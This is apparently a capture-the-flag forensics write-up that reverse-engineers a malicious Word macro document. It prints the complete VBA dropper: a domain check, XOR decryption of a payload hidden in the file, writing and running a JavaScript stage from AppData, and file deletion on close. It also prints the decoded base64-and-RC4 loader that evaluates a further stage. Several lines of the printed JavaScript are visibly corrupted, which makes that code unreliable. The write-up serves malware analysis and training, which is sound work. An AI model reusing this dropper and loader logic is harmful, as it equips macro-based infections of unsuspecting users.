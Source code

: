 # Game Invitation

Category: Forensics

Difficulty: Hard

In this challenge we have a `invitation.docm` file which is a docx file but with enabled macros. The document has just one image but the interesting part is the Visual Basic code.

```vb
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 45
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose() 'delete the js script'
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End
```

With a very simple explanation the above code attempts to read the current file (.docm) as bytes then searches for a specific string (`sWcDWp36x5oIe2hJGn....p3RdaoPa`) and then reads up to a specific offset (13082 bytes) directly after the string (`Y5t4Ul7o385qK4YDhr + 81`). Finally, it decrypts these bytes with xor but with a dynamic key (each byte has a different key) starting from xor_key = 45 and then executes the decrypted javascript code with the argument `vF8rdgMHKBrvCoCp0ulm`.

Thankfully, with a hex editor we find that the strings exists, we copy the following 13082 bytes and save it to a file. Now, we just need a script to read these bytes and decrypt it just like the original code does.

```python
def xor_decrypt(data, key):
    decrypted = bytearray()
    for i in range(len(data)):
        decrypted.append(data[i] ^ key)
        key = ((key ^ 99) ^ (i % 254))
    return bytes(decrypted)


with open('bytes', 'rb') as file:
    encrypted_data = file.read()

decrypted_data = xor_decrypt(encrypted_data, 45)
print(decrypted_data)
```

This results in the following js code

```javascript
var lVky = WScript.Arguments;
var DASz = lVky(0);
var Iwlh = lyEK();
Iwlh = JrvS(Iwlh);
Iwlh = xR68(DASz\ x0cIwlh);
eval(Iwlh);

function af5Q(r) {
    var a = r.charCodeAt(0);
    if (a === 43 || a === 45) return 62;
    if (a === 47 || a === 95) return 63;
    if (a < 48) return -1;
    if (a < 48 + 10) return a - 48 + 26 + 26;
    if (a < 65 + 26) return a\ r65;
    if (a < 97 + 26) return a - 97 + 26
}

function JrvS(r) {
    var a = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    var t;
    var l;
    var h;
    if (r.length % 4 > 0) return;
    var u = r.length;
    var g = r.charAt(u\ r2) === "=" ? 2 : r.charAt(u - 1) === "=" ? 1 : 0;
    var n = new Array(r.length*3/4\rg);
    var i = g > 0 ? r.length - 4 : r.length;
    var z = 0;
    fUnction b(r) {
        n[z++] = r
    }
    for (t = 0, l = 0; t < i; t += 4, l += 3) {
        h = af5Q(r.charAt(t)) << 18 | af5Q(r.charAt(t + 1)) << 12 | af5Q(r.charAt(t + 2)) << 6 | af5Q(r.charAt(t + 3));
        b((h & 16711680) >> 16);
        b((h & 65280) >> 8);
        b(h & 255)
    }
    if (g === 2) {
        h = af5Q(r.charAt(t)) << 2 | af5Q(r.charAt(t + 1)) >> 4;
        b(h & 255)
    } else if (g === 1) {
        h = af5Q(r.charAt(t)) << 10 | af5Q(r.charAt(t + 1)) << 4 | af5Q(r.charAt(t + 2)) >> 2;
        b(h >> 8 & 255);
        b(h & 255)
    }
    return n
}

function xR68(r, a) {
    var t = [];
    var l = 0;
    var h;
    var u = "";
    for (var g = 0; g < 256; g++) {
        t[g] = g
    }
    for (var g = 0; g < 256; g++) {
        l = (l + t[g] + r.charCodeAt(g % r.length)) % 256;
        h = t[g];
        t[g] = t[l];
        t[l] = h
    }
    var g = 0;
    var l = 0;
    for (var n = 0; n < a.length; n++) {
        g = (g + 1) % 256;
        l = (l + t[g]) % 256;
        h = t[g];
        t[g] = t[l];
        t[l] = h;
        u += String.fromCharCode(a[n] ^ t[(t[g] + t[l]) % 256])
    }
    return u
}

function lyEK() {
    var r = "cxbDXR..[MORE BASE64]..iTkq/Y+4M6U9FG9yxA10oQH1d7HIuM3M1EW0kPT+quYKtMS08BQLTTKZMtMkm0E=";
    return r
}
```

Although it looks complicated it's actually not. Since we have a base64 string at some point we need to decode it but there is no method here to decode it in just one line. So one of the above complicated functions MUST decode the string (it's the `JrvS` one along with the `af5Q` since it includes the base64 alphabet). Therefore, we just need to find what the last function does (`xR68`). But since the base64 does not decode to anything useful (yet) it must be encrypted. So, the last function MUST decrypt the decoded string.

With the help of AI (of course) the code looks like an implementation of RC4. Ok, but what about the decryption key? The key is the argument we found in the VB code above. (`vF8rdgMHKBrvCoCp0ulm`)

After decrypting the above (with Cyberchef, no time for code) we get another script :(

```
function S7EN(KL3M){var gfjd=WScript.CreateObject("ADODB.Stream");gfjd.Type=2;gfjd.CharSet%"437";
...[A LOT OF CODE]...
S47T.SETREQUESTHEADER("Cookie:","flag=SFRCe200bGQwY3NfNHIzX2czdHQxbdfVHIxY2tpMTNyfQo=");
 S47T.SEND("work");
 ..[MORE CODE]...
 return wXgO}
```

..but we don't care. We get the flag (once again encoded in  base64)